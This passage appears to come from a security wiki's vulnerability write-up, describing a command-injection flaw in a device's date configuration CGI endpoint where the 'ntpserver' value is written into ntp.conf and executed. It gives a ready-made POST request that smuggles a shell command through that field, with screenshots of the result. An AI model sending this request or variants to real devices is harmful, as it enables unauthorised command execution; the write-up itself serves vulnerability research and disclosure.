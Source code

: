 ![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628932135524-80885cc7-ec0c-4c70-9145-3c92bbeb92c2.png)

This file was found in the /etc directory

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628932193427-d571379b-0d7e-44ce-8005-6d077e69df02.png)

Keep looking down

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628932309063-96a9127b-56b3-4dd7-bb51-09cf825c01bd.png)

It can be found that when other parameters are written in the ntp.conf file, the command execution will be caused. The idea is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628932750956-a0ee7056-7ccd-4cb3-a4df-9a5ad61b7c00.png)

Construct request

```php
POST /cgi-bin/Maintain/date_config

ntpserver=0.0.0.0;id&year=2021&month=08&day=14&hour=17&minute=04&second=50&tz=Asiz&bcy=Shanghai&ifname=fxp1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628933229066-f8d6c653-898f-4ca4-811e-6d9ee9f9e528.png)

**Written successfully to the ntp.conf file is 0.0.0.0;id, access the page again to get the command execution result**

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628933214110-726666cf-d57e-4ccc-91e2-72a5d93bb27e.png)



Command splicing can be performed at the interaction to make injection

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628866823919-229f07f4-6805-40ce-bc7b-46c33387e40a.png)